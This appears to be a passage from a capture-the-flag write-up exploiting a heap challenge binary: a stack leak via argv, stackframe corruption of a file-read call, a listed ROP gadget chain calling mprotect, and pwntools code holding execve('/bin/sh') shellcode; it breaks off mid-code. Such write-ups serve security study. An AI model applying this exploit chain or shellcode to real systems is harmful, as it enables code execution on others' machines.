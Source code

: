 ## Leak stack

To leak the stack I leaked the `argv` variable that contains a pointer toward
arguments given to the program, stored on the stack. That's a reliable leak
given it's a known and fixed location, which can base used as a base compared
with function's stackframes.

```py  
alloc(5, 1000, b"A") # get chunk into target location (0x208000)  
show(5)  
io.recv(0x100) # argv is located at 0x208000 + 0x100

stack = pwn.u64(io.recv(8))  
pwn.log.info(f"stack: {hex(stack)}")  
```

## ROP

Now we're able to overwrite whatever function's stackframe, we have to find
one that returns from context of `std.fs.file.File.read` that reads the user
input to the chunk. But unlucky functions like `add`, `edit` are inlined in
the `main` function. Moreover we cannot overwrite the return address of the
`main` function given that the exit handler call directly exit. Which means we
have to corrput the stackframe of the `std.fs.file.File.read` function called
in the `edit` function.  
But the issue is that between the call to `SYS_read` within
`std.fs.file.File.read` and the end of the function, variables that belong to
the calling function's stackframe are edited, corrupting the ROPchain. So what
I did is using this gadget to reach a part of the stack that will not be
corrupted:

```  
0x0000000000203715 : add rsp, 0x68 ; pop rbx ; pop r14 ; ret  
```

With the use of this gadget I'm able to pop a few QWORD from the stack to
reach another area of the stack where I write my ROPchain.  
The goal for the ROPchain is to `mptotect` a shellcode and then jump on it.
The issue is that I didn't find a gadget to control the value of the `rdx`
register but when it returns from `std.fs.file.File.read` it contains the
value of size given to `edit`. So to call `mprotect(rdi=0x208000, rsi=0x1000,
rdx=0x7)` we have to call `edit` with a size of `7` to write on the
`std.fs.file.File.read` saved RIP the value of the magic gadget seen
previously.

Here is the ROPchain:  
```py  
edit(4, 0x400 + 5*8, b"A"*0x400 + pwn.p64(0x208000)*3 + pwn.p64(0x000) +
pwn.p64(0))  
# with the use of the write what were we write the shellcode at 0x208000

shellcode =
b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"  
# execve("/bin/sh", NULL, NULL)

alloc(14, 1000, shellcode)

"""  
0x0000000000201fcf : pop rax ; syscall  
0x0000000000203147 : pop rdi ; ret  
0x000000000020351b : pop rsi ; ret  
0x00000000002035cf : xor edx, edx ; mov rsi, qword ptr [r9] ; xor eax, eax ;
syscall  
0x0000000000201e09 : ret  
```